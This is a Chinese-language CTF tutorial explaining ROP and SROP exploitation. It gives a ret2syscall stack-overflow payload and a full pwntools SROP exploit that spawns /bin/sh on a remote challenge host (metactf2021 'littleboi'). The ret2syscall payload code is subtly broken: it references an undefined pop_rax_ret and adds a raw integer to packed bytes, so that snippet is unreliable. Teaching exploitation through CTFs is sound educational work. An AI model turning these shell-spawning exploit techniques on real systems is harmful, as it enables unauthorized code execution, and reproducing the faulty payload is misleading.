



# ROP

## 从shellcode说起

之前我们提到过，shellcode可以造成安全威胁的主要原因是程序的数据和指令指之间的隔离性被打破了。如果程序本身开启了NX保护，那么shellcode将无法在栈这一数据段上执行，我们就因此无法用输入的字符串来作为指令达到任意代码执行的效果了。

shellcode的思想是混淆数据和指令，既然这已经无法做到，那么我们必须思考其他方式。要么通过各种方法申请一段可以读写执行的内存空间，要么就利用程序原有的代码段来执行。通过第二种方法进行的控制流代码执行，我们称为ROP（Return-Oriented Programming）。

## ROP入门

我们仍然考虑栈溢出，但是这次我们不在栈上写指令了。考虑如下的指令布局：

```assembly
addr_1:
		xxx xxx,xxx
		xxx xxx,xxx
		ret

addr_2:
		xxx xxx,xxx
		ret

addr_3:
		xxx xxx,xxx
		ret
		
```

上面每一串指令最终都以ret结尾，中间不含其他跳转和栈操作。然后我们在执行一个函数返回时，在栈上作如下布局：



图1.rop栈布局

根据ret指令的规则，函数结束后返回addr_1，执行完其中的代码后，ret，此时栈顶是addr_2，因此返回其处执行其中代码，又执行到addr_3...依此类推，这样形成了一个链状的调用，我们称这样的结构为rop链。由于我们只输入了地址数据，而没有输入需要执行的指令，这些代码完全是程序本身的代码，所以不会触发NX保护机制。

一般静态编译的程序中，含有很多的以ret结尾的代码片段（我们称为gadget），我们完全可以利用这些gadget来完成类似shellcode的调用。

这时问题来了：我们之前的shellcode中，对syscall的调用需要设置很多寄存器、还需要写入很多自定义的值（例如`"flag"`、`"/bin/sh"`这样的字符串），依靠程序本身的代码片段，怎么完成这样的工作呢？

我们来观察如下的代码片段

```assembly
addr_1:
		pop	rax
		ret

addr_2:
		pop rdi
		pop rsi
		ret

addr_3:
		syscall

```

这些gadget中含有pop这样的栈操作。我们在栈上这样布局：



图2.含有pop的栈布局

还是类似刚才的分析，程序ret到addr_1后，将栈顶pop到rax中，此时栈顶是addr_2，因此ret执行addr_2的代码，又按顺序将两个数pop到rdi和rsi中，最终ret回addr_3的syscall处触发。

因此，通过这方式构造的rop链，可以实现自定义修改寄存器并执行syscall。

通过以上学习，我们可以看出，rop本身是一种对程序代码的利用手段。我们仍然需要费尽心思去考虑如何劫持控制流到rop链上。

## SROP

SROP是ROP的一种特例。假设程序中没有很多的gadget可用，无法设置很多的寄存器，只能设置rax、或者连显式的poprax指令都没有时，我们可以考虑是不是有SROP的可能。

SROP的操作很简单，在amd64下就是布局栈上内存，设置rax为15，然后执行syscall。

我们可以查表得到，syscallid为15的系统调用为signal-return，这也就是SROP中S的来源。既然有sig- return，那自然有sig-call。简单来说，这两个功能总是结合使用的，用于调用一些特殊功能，在sig-call时，会将现在所有的寄存器等关键信息在栈上保存一份sig-frame，然后去其他地方执行sig函数；执行完后的sig-ret，会将栈顶保存下来的这些寄存器信息读取出来，还原sig-call之前的函数现场。



图3.sigret原理

如图所示，如果我们跳过sig-call，直接从sig-ret开始，系统就会认为当前栈顶是之前sig-call存档过的函数现场帧，继而读取出来用来还原各个寄存器的值。只要我们伪造好了栈上的sig-frame，然后调用sig-ret，那么就能设置大量的寄存器以及返回地址。

SROP主要是用来处理ROPgadget不够的情况的。事实上，我们只需要有设置rax的gadget和syscall，以及栈上可以用于伪造的布局，就可以尝试触发srop。更进一步地，如果连设置rop的gadget都没有，我们可以看看程序运行到最后是不是调用了什么函数，这个函数的返回值是不是可以操纵，因为这个返回值是保存在rax中的，继而变相地设置了rax。

## 工具使用

* ROPgadget

  安装：

  ```shell
  git clone https://github.com/JonathanSalwan/ROPgadget.git
  cd ROPgadget
  sudo python setup.py install
  ```

  使用：

  ```shell
  ROPgadget --binary filename
  ```

  这个工具可以搜索出程序中能用的于rop的gadget。同时又许多其他参数可用，比如加`--ropchain`参数可以生成构造rop链payload的参考代码和注释。具体的使用可以参照github中给的使用说明。

  

## 实践

例1.ROP基本操作

ret2syscall，查看保护：

```shell
➜  ret2syscall checksec rop
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

IDA查看题目源代码：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```

我们发现，NX开启，因此不能用shellcode。但是PIE关闭了。这里需要讲一下PIE，这是一种保护机制，如果打开的话，程序的代码段地址每次运行时会整体加上一个随机的偏移量，如果不知道这个偏移量，那么程序里的每条指令相当于地址随机化了，就无法直接使用ROP了，因为ROP需要知道具体的指令地址。

我们发现，代码里存在一个没有检查长度的gets，说明可以栈溢出。只要计算好偏移量，将函数的返回地址修改成rop链的地址就行。

我们用ROPgadget寻找挑选出以下几个gadget：

```
0x080bb196 : pop eax ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x080be408 : /bin/sh	(--string参数)
0x08049421 : int 0x80
```

于是我们只需要布置这样的rop链：


```python
pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_80 = 0x08049421
sh_str = 0x80be408
padding=b'#'*(0x70)#这里根据动态调试结果计算出填充
payload=padding
payload+=p32(pop_rax_ret)+0xb
payload+=p32(pop_edx_ecx_ebx_ret)+p32(0)+p32(0)+p32(sh_str)
payload+=p32(int_80)
```

为了加深印象，希望大家在pwndbg中手动调试观察rop链的执行情况。

例2.SROP

metactf2021,littleboi

检查保护

```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

发现没开PIE。

程序代码： 

```assembly
public _start
_start proc near
; __unwind {
push    rsp
pop     rsi
push    0
push    0
pop     rdi
pop     rax
mov     edx, 800h
syscall                 ; LINUX -
retn
_start endp
```

发现仍然是从汇编程序编译来的，而且非常短，根本没有什么ropgadget可以用。同时，可以查找到程序里含有`'/bin/sh'`字符串。

程序流程是执行了`read(0,rsp,0x800)`，就是向栈上写入键盘读入的很长的字符串。同时也有一个现成的syscall后面跟ret的gadget。很容易忽略的一点是，read函数是有返回值的，返回的是真正读入了多少个字符，保存在rax中。因此，这个read之后的rax事实上是可以通过输入字符来控制的，只要我们输入15个字符就能进行SROP了。

观察栈布局，我们输入的第一个64位数就是返回地址。但是我们要在栈上伪造一个sig-frame（很长，远大于15）来调各种寄存器，因此我们需要读入两次。所以，第一次的read，我们要让返回地址回到程序开头，同时在栈上伪造好待会儿要用的sigframe。回到程序开头后，我们第二次输入15个字符，然后令返回地址为syscall，只要第一次伪造好的sigframe正好在栈顶，就能成功srop。这里我们可以计算一下第一次的填充，是16字节的填充，后面跟sigframe。

通过这个exp，我们可以学习一下pwntools中srop的工具使用。

```python
from pwn import *
e=ELF('./little')
p=remote('host1.metaproblems.com',5460)
binsh_addr=0x402000
syscall_addr=0x40100d
context.arch='amd64'
frame=SigreturnFrame()#构造frame
frame.rax=59
frame.rdi=binsh_addr
frame.rsi=0
frame.rdx=0
frame.rip=syscall_addr#和rop一样设置寄存器
#print(str(frame).encode())
p.send(p64(e.symbols['_start'])+p64(0)+bytes(frame))#frame前面跟着16字节的填充
sleep(1)
p.send(p64(syscall_addr)+bytes(frame)[0:7])#15字节
p.interactive()
```

## 总结

ROP是一种利用手段，而并非程序本身的漏洞。对于一般的题目，我们总需要各种方法去劫持控制流，劫持完了以后转移到我们的利用手段上去，这时再考虑ROP。